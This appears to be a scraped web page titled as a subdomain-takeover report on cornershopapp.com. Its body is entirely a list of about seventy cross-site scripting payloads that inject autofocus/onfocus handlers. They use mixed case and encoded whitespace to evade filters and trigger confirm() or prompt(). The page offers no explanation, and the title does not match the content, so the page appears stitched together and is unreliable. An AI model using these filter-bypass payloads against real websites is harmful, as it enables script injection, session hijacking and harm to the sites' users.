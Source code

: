 # cornershopapp.com

## Subdomain Takeover By UnknownGhost

<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js?client=ca-pub-2573217366318616"
     crossorigin="anonymous"></script>


%0dAuTOFocUs%0dOnfoCUS=confirm()
%09autoFOcUS%09onfOcUS=(confirm)()
%0aAUToFOcUs%0aONfOcuS=[8].find(confirm)
%0daUTOfOCus%0doNfOCus=[8].find(confirm)
%09AuTofoCus%09ONfoCUs=confirm()
/+/aUtOFocUS/+/onfOcUs=[8].find(confirm)
%09auTOfOCus%09onfocUS=(confirm)()
%0aAUtofOcuS%0aoNfOCuS=(confirm)()
/+/autOFoCus/+/onfoCus=(confirm)()
/+/AUTofocUs/+/OnFocus=[8].find(confirm)
/+/AUtOFocuS/+/ONFOCus=(prompt)``
%09aUtOfOcUS%09ONfocUs=confirm()
%0aaUtOFOCuS%0aONfoCuS=(confirm)()
/+/AutofOcUs/+/OnFOcus=confirm()
%09auToFoCus%09ONFOCUS=confirm()
%09AUTofOCUS%09OnfOcUs=confirm()
%0dAuTOfOCuS%0donfocUs=(confirm)()
%0aauTOFOcUs%0aoNFOCUs=(prompt)``
%0aAUtofocus%0aOnFoCus=a=prompt,a()
/+/AUtOFocUS/+/OnfOcuS=confirm()
%0dAutOfOcuS%0donFoCuS=confirm()
%0dAuTOfocuS%0dONFOCuS=a=prompt,a()
/+/AUToFOCUs/+/oNFocus=confirm()
%0dauTOfOCUs%0dOnFOCUS=[8].find(confirm)
/+/AuTOFOCUs/+/ONFOCus=(prompt)``
%0aauTOfocUs%0aONfOcuS=confirm()
%0aaUtOfoCuS%0aONFocUs=confirm()
%0aauToFOcUS%0aoNfOCUs=a=prompt,a()
%09auTofOCUS%09Onfocus=confirm()
%0aAUToFoCUS%0aONFoCUs=a=prompt,a()
%0aAuTofoCUS%0aoNfocuS=[8].find(confirm)
/+/AuTofOCUs/+/OnfoCUs=(prompt)``
%0dAutOFoCUs%0donfOCUS=(prompt)``
%09AUTofOcUs%09onfocUs=(prompt)``
%09auTOFOCUS%09onfoCUs=(prompt)``
%09aUtofoCUS%09oNfocus=a=prompt,a()
%0aautOfOCUs%0aOnFOcus=(prompt)``
%0aAUToFoCUs%0aONfocuS=confirm()
%0dautOfOCUS%0donFocuS=a=prompt,a()
/+/aUtofoCuS/+/onfocUS=(confirm)()
%0aAUTOfOCUS%0aONfOCUs=(prompt)``
%0dAutoFocUS%0doNfocuS=[8].find(confirm)
%0dAuTOFOcUS%0doNFocus=(confirm)()
%09AutoFoCUS%09oNfOcUs=a=prompt,a()
/+/AUtOfOCUs/+/OnfoCuS=confirm()
%0aautOFOcuS%0aONFOcUS=confirm()
/+/AuToFocuS/+/oNfOcUS=confirm()
%09auTofOCUs%09OnFOcuS=[8].find(confirm)
%09AuTOFocUs%09ONfOCUS=(prompt)``
%0dauToFoCUS%0donFOCuS=confirm()
%0dAUtofoCUS%0doNFOCuS=(prompt)``
%0dAUTOFoCUs%0dONFoCus=confirm()
%0aAuToFOcUs%0aoNFocUS=confirm()
%0dAutofoCuS%0donfOcus=confirm()
%09AUtofoCUS%09ONFoCUs=confirm()
/+/aUTOfoCUS/+/OnFocuS=a=prompt,a()
%0dAUTOFocUS%0doNFocUS=confirm()
/+/aUTofOcUS/+/onFOcuS=[8].find(confirm)
%0aAuToFoCUS%0aonfOcUs=confirm()
%09autOFocUS%09onFOcUS=[8].find(confirm)
%0aaUtofOCUs%0aonFOCus=(confirm)()
%09aUtOfoCUs%09ONfoCus=a=prompt,a()
%0dAutofOCUS%0dOnfOcUS=a=prompt,a()
/+/aUToFoCuS/+/oNfOcus=a=prompt,a()
%09aUtoFocUS%09oNFoCuS=[8].find(confirm)
%09AutofoCUs%09ONFOCUS=(confirm)()
%0daUTOfOCuS%0dOnfOcUs=(prompt)``
/+/AUTOfoCUs/+/OnFOCuS=(confirm)()
%0aaUtOFoCuS%0aONFOCUs=[8].find(confirm)
/+/AutOFOcus/+/oNFoCuS=a=prompt,a()
/+/Autofocus/+/oNfocUs=confirm()
%0dAUtofoCuS%0dONFoCUS=(confirm)()
